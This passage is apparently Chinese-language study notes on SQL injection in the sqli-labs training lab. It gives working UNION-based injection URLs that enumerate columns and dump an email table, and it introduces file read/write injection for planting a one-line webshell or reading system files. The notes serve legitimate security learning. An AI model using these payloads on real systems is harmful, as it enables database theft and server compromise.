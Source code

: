 ![](图片/Pasted%20image%2020241025182914.png)
- 查询表名对应的字段名
    - http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x656d61696c73     （emails）
    - ![](图片/Pasted%20image%2020241025183406.png)
- 查询数据
    - http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(id),group_concat(email_id)%20from%20security.emails
    - ![](图片/Pasted%20image%2020241025183829.png)
# 文件读写
- 文件读写注入的原理
    - 就是利用文件的读写权限进行注入，它可以写入一句话木马，也可以读取系统文件的敏感信息。
- 文件读写注入的条件
    - 高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限
    - **secure_file_priv选项**
```
linux
cat  etc/conf

win
www/mysql / my.ini
```
- `show global variables like '%secure%' `查看mysql全局变量的配置